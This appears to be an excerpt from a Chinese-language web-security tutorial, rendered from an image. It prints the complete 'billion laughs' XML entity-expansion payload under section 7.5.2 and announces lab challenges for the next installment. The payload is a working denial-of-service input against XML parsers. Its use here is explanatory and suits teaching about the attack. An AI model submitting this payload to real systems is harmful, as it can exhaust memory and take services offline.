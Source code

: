&lt;?xml version="1.0"?&gt;<br/>  &lt;!DOCTYPE lolz [<br/>  &lt;!ENTITY lol "lol"&gt;<br/>  &lt;!ENTITY lol2 "&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;"&gt;<br/>  &lt;!ENTITY lol3 "&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;"&gt;<br/>  &lt;!ENTITY lol4 "&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;"&gt;<br/>  &lt;!ENTITY lol5 "&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;"&gt;<br/>  &lt;!ENTITY lol6 "&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;"&gt;<br/>  &lt;!ENTITY lol7 "&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;"&gt;<br/>  &lt;!ENTITY lol8 "&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;"&gt;<br/>  &lt;!ENTITY lol9 "&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;&amp;lol8;"&gt;<br/>  ]&gt;<br/>  &lt;lolz&gt;&amp;lol9;&lt;/lolz&gt;<br/>  


####  7.5.2、a billion laughs attack

---


## 八、下一期：

将推出靶场题目 

